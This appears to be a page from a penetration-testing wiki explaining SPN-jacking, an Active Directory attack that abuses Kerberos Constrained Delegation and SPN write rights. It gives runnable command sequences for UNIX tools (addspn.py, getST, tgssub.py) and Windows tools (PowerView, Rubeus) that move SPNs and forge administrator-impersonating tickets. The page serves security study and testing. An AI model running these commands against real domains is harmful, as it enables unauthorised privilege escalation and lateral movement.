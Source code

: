 # SPN-jacking

## Theory

This attack combines [Kerberos Constrained delegation abuse](delegations/constrained.md) and [DACL abuse](../dacl/). A service configured for Kerberos Constrained Delegation (KCD) can impersonate users on a set of services. The "set of services" is specified in the constrained delegation configuration. It is a list of SPNs (Service Principal Names) written in the `msDS-AllowedToDelegateTo` attribute of the KCD service's object.

In standard KCD abuse scenarios, an attacker that gains control over a "KCD service" can operate lateral movement and obtain access to the other services/SPNs. Since KCD allows for impersonation, the attacker can also impersonate users (e.g. domain admins) on the target services. Depending on the SPNs, or if it's possible to [modify it](ptt.md#modifying-the-spn), the attacker could also gain admin access to the server the "listed SPN" belongs to.

On top of all that, if attacker is able to move a "listed SPN" from the original object to the another one, he could be able to compromise it. This is called SPN-jacking and it was intially discovered and explaine by [Elad Shamir](https://twitter.com/elad\_shamir) in [this post](https://www.semperis.com/blog/spn-jacking-an-edge-case-in-writespn-abuse/).

1. In order to "move the SPN", the attacker must have the right to edit the target object's `ServicePrincipalName` attribute (i.e. `GenericAll`, `GenericWrite` over the object or`WriteProperty` over the attribute (called `WriteSPN` [since BloodHound 4.1](https://posts.specterops.io/introducing-bloodhound-4-1-the-three-headed-hound-be3c4a808146)), etc.).
2. If the "listed SPN" already belongs to an object, it must be removed from it first. This would require the same privileges (`GenericAll`, `GenericWrite`, etc.) over the SPN owner as well (_a.k.a. "Live SPN-jacking"_). Else, the SPN can be simply be added to the target object (_a.k.a. "Ghost SPN-jacking"_).

## Practice

{% hint style="info" %}
In this scenario, we assume the Kerberos Constrained Delegation is configured [with protocol transition](delegations/constrained.md#with-protocol-transition) in order to keep things simple. However, the SPN-jacking attack can be conducted on [KCD without protocol transition](delegations/constrained.md#without-protocol-transition) as well (cf. [RBCD technique](delegations/constrained.md#rbcd-approach)).

In this scenario (following [Elad](https://twitter.com/elad\_shamir)'s [post](https://www.semperis.com/blog/spn-jacking-an-edge-case-in-writespn-abuse/)):

* serverA is configured for KCD
* serverB's SPN is listed in serverA's KCD configuration
* serverC is the final target
* attacker controls serverA, has at least WriteSPN over serverB (if needed, "live SPN-jacking"), and at least WriteSPN over serverC.
{% endhint %}

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like machines, [krbrelayx](https://github.com/dirkjanm/krbrelayx)'s [addspn.py](https://github.com/dirkjanm/krbrelayx/blob/master/addspn.py) and [Impacket](https://github.com/SecureAuthCorp/impacket) example scripts (Python) can be used to conduct the different steps (manipulate SPNs, obtain and manipulate tickets).

_At the time of writing, 12th Feb. 2022,_ [_the pull request_](https://github.com/SecureAuthCorp/impacket/pull/1256) _adding the `tgssub.py` is pending._ [_The pull request_](https://github.com/SecureAuthCorp/impacket/pull/1184) _modifying the `findDelegation.py` is pending._

__:warning: _At the time of writing, 12th Feb. 2022, this technique has not been fully fool-proofed from UNIX systems. In case something errors, switch to the Windows technique._

```python
# 1. show SPNs listed in the KCD configuration
findDelegation.py -user 'serverA$' "DOMAIN"/"USER":"PASSWORD"

# 2. remove SPN from ServerB if required (live SPN-jacking)
addspn.py --clear -t 'ServerB$' -u 'domain\user' -p 'password' 'DomainController.domain.local'

# 3. add SPN to serverC
addspn.py -t 'ServerC$' --spn "cifs/serverB" -u 'domain\user' -p 'password' -c 'DomainController.domain.local'

# 4. request an impersonating service ticket for the SPN through S4U2self + S4U2proxy
getST -spn "cifs/serverB" -impersonate "administrator" 'domain/serverA$:password'

# 5. Edit the ticket's SPN (service class and/or hostname)
tgssub.py -in serverB.ccache -out newticket.ccache -altservice "cifs/serverC"
```

Once the final service ticket is obtained, it can be used with [Pass the Cache](ptc.md) / [Pass the Ticket](ptt.md) to access the target.
{% endtab %}

{% tab title="Windows" %}
From Windows machines, [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) (PowerShell) and  [Rubeus](https://github.com/GhostPack/Rubeus) (C#) can be used to conduct the different steps (manipulate SPNs, obtain and manipulate tickets).



```powershell
# 1. show SPNs listed in the KCD configuration
Get-DomainObject -Identity ServerA$ -Properties 'msDS-AllowedToDelegateTo'

# 2. remove SPN from ServerB if required (live SPN-jacking)
Set-DomainObject -Identity ServerB$ -Clear 'ServicePrincipalName'

# 3. add SPN to serverC
Set-DomainObject -Identity ServerC$ -Set @{ServicePrincipalName='cifS/serverB'}

# 4. request an impersonating service ticket for the SPN through S4U2self + S4U2proxy
Rubeus.exe s4u /nowrap /msdsspn:"cifs/serverB" /impersonateuser:"administrator" /domain:"domain" /user:"user" /password:"password"

# 5. Edit the ticket's SPN (service class and/or hostname)
Rubeus.exe tgssub /nowrap /altservice:"host/serverC" /ticket:"ba64ticket"
```

Once the final service ticket is obtained, it can be used with [Pass the Ticket](ptt.md) to access the target.
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://www.semperis.com/blog/spn-jacking-an-edge-case-in-writespn-abuse" %}
